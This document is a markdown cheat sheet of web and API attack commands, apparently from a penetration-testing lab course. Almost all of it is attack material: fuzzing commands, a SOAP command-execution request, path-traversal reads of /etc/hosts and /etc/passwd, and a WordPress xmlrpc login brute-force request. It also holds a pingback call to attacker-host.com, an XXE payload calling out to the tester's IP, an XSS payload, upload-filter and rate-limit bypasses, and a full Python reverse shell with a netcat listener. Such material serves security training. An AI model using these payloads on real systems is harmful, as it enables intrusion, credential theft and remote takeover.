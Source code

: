 # Web Services and APIs Security Commands Cheat Sheet

## Directory and Parameter Fuzzing

### Basic Directory Fuzzing
```bash
dirb http://<TARGET IP>:3002
```

### Parameter Fuzzing with ffuf
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<TARGET IP>:3002/wsdl?FUZZ' -fs 0 -mc 200
```

### API Endpoint Fuzzing
```bash
ffuf -w "SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```

### Parameter Fuzzing with Response Size Filtering
```bash
ffuf -w "burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```

## WSDL and SOAP Testing

### Retrieve WSDL File
```bash
curl http://<TARGET IP>:3002/wsdl?wsdl
```

### Basic SOAP Request
```bash
curl -X POST http://<TARGET IP>:3002/wsdl -d 'SOAP_PAYLOAD' -H "SOAPAction:\"ExecuteCommand\""
```

## Network Monitoring

### Monitor ICMP Traffic
```bash
sudo tcpdump -i tun0 icmp
```

### Set up Netcat Listener
```bash
nc -nlvp 4444
```

## Information Disclosure and SQLi

### Basic API Parameter Testing
```bash
curl http://<TARGET IP>:3003/?id=1
```

### Base64 Encoding for SSRF
```bash
echo "http://<VPN_IP>:<PORT>" | tr -d '\n' | base64
```

## File Operations

### LFI Testing
```bash
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```

### File Upload Testing
```bash
# Upload via POST to /api/upload/
# Check response for file location
```

## WordPress xmlrpc.php Testing

### List Available Methods
```bash
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

### Test Login Credentials
```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

### Pingback Attack
```bash
curl -X POST -d "<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://attacker-host.com/</string></value></param><param><value><string>https://target.com/post</string></value></param></params></methodCall>" http://target.com/xmlrpc.php
```

## XXE Testing

### Basic XXE Payload
```bash
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN_IP>:<PORT>"> ]><root><email>&somename;</email><password>test</password></root>'
```

## XSS Testing

### URL-Encoded XSS Payload
```bash
# Use: %3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
# Instead of: <script>alert(document.domain)</script>
```

## Reverse Shell Payloads

### Python Reverse Shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Tools and Utilities

### Clear Terminal
```bash
os.system("clear")  # In Python
```

### Burp Suite
```bash
burpsuite
```

## Rate Limiting Bypass Headers
- `X-Forwarded-For: 127.0.0.1`
- `X-Forwarded-IP: 127.0.0.1`
- `X-Real-IP: 127.0.0.1`

## Common File Extensions for Upload Bypass
- `.jpg.php`
- `.PHP`
- `.php5`
- `.phtml`

## Common Paths for LFI Testing
- `../../../etc/passwd`
- `../../../etc/hosts`
- `../../../windows/system32/drivers/etc/hosts`
- `../../../proc/version`
